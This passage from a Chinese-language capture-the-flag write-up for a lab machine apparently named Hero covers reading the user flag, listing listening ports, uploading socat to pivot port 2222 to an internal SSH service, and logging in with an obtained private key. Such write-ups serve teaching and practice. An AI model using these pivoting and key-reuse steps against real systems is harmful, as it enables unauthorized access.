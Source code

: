 ## UserFlag

可以在用户家目录找到`userFlag`

```python
cat user.txt
HMVOHIMNOTREAL
```

## 获得交互式shell

因为我们可以通过`n8n`来使用`ssh`密钥登录，那么肯定`22`端口应该就是在`172.17.0.1`上监听着

查看当前主机的监听和网络连接端口，可以看到和我们的猜想一样

```python
busybox netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name

tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      -
tcp        0      0 :::5678                 :::*                    LISTEN      -
```

通过`socat`来转发

1. `Kali`开启`web`服务器将`socat`上传至靶机
2. 靶机通过`socat`来实现端口转发
    
    ```python
    ./socat TCP-LISTEN:2222,fork TCP4:172.17.0.1:22 &
    ```
    
    > 该命令在本地机器上启动了一个 TCP 端口 `2222` 的监听，任何连接到 `127.0.0.1:2222` 的请求都会被转发到 `127.0.0.1:22`（即本地的 SSH 服务）
    > 
3. `netstat`验证一下，可以看到`2222`端口在监听了
    
    ```python
    busybox netstat -lntup
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      3271/socat
    tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
    tcp        0      0 :::80                   :::*                    LISTEN      -
    tcp        0      0 :::5678                 :::*                    LISTEN      -
    ```
    
4. 连接`SSH` ，拿到交互式`shell` （ps：之前上传的`socat`不知道为什么应该是太新了，会无法转发，之后上传了一个旧版本就可以正常转发了）
    
    ```python
    ┌──(root㉿kali)-[~/Desktop/test/Hero]
    └─# ssh shawa@192.168.56.18 -p 2222 -i id_rsa
    The authenticity of host '[192.168.56.18]:2222 ([192.168.56.18]:2222)' can't be established.
    ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '[192.168.56.18]:2222' (ED25519) to the list of known hosts.
    shawa was here.
    Welcome to Alpine!
    